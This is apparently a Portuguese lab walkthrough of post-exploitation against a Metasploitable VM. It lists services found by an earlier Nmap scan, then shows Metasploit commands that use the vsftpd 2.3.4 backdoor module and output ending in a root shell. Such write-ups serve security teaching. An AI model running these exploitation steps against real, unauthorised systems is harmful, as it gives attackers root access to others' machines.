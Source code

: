 # 02. Pós-exploração com METASPLOIT

Após realizar a etapa de exploração de serviços com o <i><b>NMAP</i></b> (leia <a href="01_exploracao_com_nmap.md">01. Exploração com <b>NMAP</b></a> para entender o fluxo de pensamento daqui), iremos tentar conseguir o acesso ao <i><b>shell/terminal</i></b> da nossa máquina de alguma forma.

Analisando o retorno que o <i><b>NMAP</i></b> nos trouxe, vemos que temos diversos serviços rodando na nossa máquina alvo. Fazendo uma listagem dos quais conseguimos reconhecer os serviços executados, temos:

- `FTP`, com o `vsftp`, na versão `2.3.4`, na porta `21`.
- `SSH`, com o `OpenSSH`, na versão `4.7p1`, na porta `22`.
- `TELNET`, com o `telnet (linux)`, na porta `23`.
- `SAMBA`, com o `smtpd`, na porta `25`.
- `DOMAIN`, com o `ISC BIND`, na versão `9.4.2`, na porta `53`.
- `HTTP`, com o `Apache httpd`, na versão `2.2.8`, na porta `80`.
- `RPCBIND`, na porta `111`.
- `SAMBA`, com o `Samba smbd`, no range de versão `3.x - 4.x`, na porta `139`.
- `SAMBA`, com o `Samba smbd`, no range de versão `3.x - 4.x`, na porta `445`.
- `SHELL`, com o `Netkit rshd`, na porta `514`.
- `JAVA-RMI`, com o `GNU Classpath grmiregistry`, na porta `1099`.
- `BINDSHELL`, com o `Metasploitable root shell`, na porta `1524`.
- `NFS`, no range de versão `2-4`, na porta `2049`.
- `FTP`, com o `ProFTPD`, na versão `1.3.1`, na porta `2121`.
- `MYSQL`, com o `MySQL`, na versão `5.0.51a-3ubuntu5`, na porta `3306`.
- `DISTCCD`, com o `distccd`, na versão `v1`, na porta `3632`.
- `POSTGRESQL`, com o `PostgreSQL DB`, no range de versão `8.3.0 - 8.3.7`, na porta `5432`.
- `X11`, na porta `6000`.
- `IRC`, com o `UnrealIRCd`, na porta `6667`.
- `IRC`, com o `UnrealIRCd`, na porta `6697`.
- `AJP13`, com o `Apache Jserv`, com o protocolo na versão `v1.3`, na porta `8009`.
- `HTTP`, com o `Apache Tomcat/Coyote JSP engine`, na versão `1.1`, na porta `8180`.
- `DRB`, com o `Ruby DRb RMI`, na porta `8787`.
- `NLOCKMGR`, na porta `38718`.
- `JAVA-RMI`, com o `GNU Classpath grmiregistry`, na porta `38811`.
- `MOUNTD`, na porta `38909`.
- `STATUS`, na porta `55674`.

Rapaz, quanto serviço rodando junto em uma máquina. <b>Mas isso não será impeditivo para <i>MIM</i>.</b>

Para darmos o nosso primeiro passo, vamos usar uma ferramenta chamada <i><b>Metasploit</b></i>.

O <i><b>Metasploit</b></i> é uma ferramenta <i><b>open-source</b></i> de uso em <i><b>terminal/console</b></i> com a finalidade de realizar testes de <i><b>penetração/intrusão</b></i> e <i><b>exploração de vulnerabilidades</b></i> de serviços que estejam em execução em uma máquina. É uma ferramenta extremamente fácil e rápida de utilizar, simplificando bastante até o desenvolvimento, teste e a execução de <i><b>exploits</b></i>. Contém agregado a ele uma gama <i><b>IMENSA</b></i> de vulnerabilidades já conhecidas e exploradas pela comunidade de <i><b>cybersegurança</b></i>.

Enfim - explicação feita, vamos começar!

Abrindo o <i><b>CLI</b></i> do <i><b>Metasploit</b></i> com o comando:

`$ msfconsole`

E logo após executar o boot do programa, resolvo procurar pelo primeiro serviço da lista que o <i><b>NMAP</b></i> me entregou:

`msf > search vsftpd`

E então, <b>BINGO</b>! Nos é retornado uma pequena lista que tem um <i><b>exploit</b></i> no qual poderemos utilizar na nossa máquina alvo:

```
Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  auxiliary/dos/ftp/vsftpd_232          2011-02-03       normal     Yes    VSFTPD 2.3.2 Denial of Service
   1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 1, use 1 or use exploit/unix/ftp/vsftpd_234_backdoor
```

Mavailha - agora vamos selecionar o <i><b>exploit</b></i> de número <i><b>1</b></i> com o comando abaixo:

`msf > use 1`

Selecionado o <i><b>exploit</b></i> que iremos usar, temos de configurar-lo para ele realizar os testes e comprometer o serviço alvo desejado. Vamos ver quais são as opções a configurar:

```
msf exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: socks5h, sapni, http, socks4, socks5
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.
```

Os valores obrigatórios que o <i><b>exploit</b></i> cobra são: `RHOSTS` e `RPORT`. O valor `RPORT` já está configurado corretamente, então vamos configurar o valor de `RHOSTS`:

`msf exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.56.102`

Maravilha. Com tudo pronto, agora é só executar o <i><b>exploit</b></i> e se preparar para o retorno dele:

```
msf exploit(unix/ftp/vsftpd_234_backdoor) > run
[*] 192.168.56.102:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.56.102:21 - USER: 331 Please specify the password.
[+] 192.168.56.102:21 - Backdoor service has been spawned, handling...
[+] 192.168.56.102:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.56.1:35945 -> 192.168.56.102:6200) at 2025-10-18 15:49:15 -0300

whoami
root
```

<b>PERFEITO DEMAIS!</b> O <i><b>exploit</b></i> funcionou e já direto com acesso ao usuário <i><b>root</b></i> (superusuário, o usuário de nível mais alto no sistema do linux).

Agora o céu é o limite. E vamos com tudo para nossa próxima etapa!
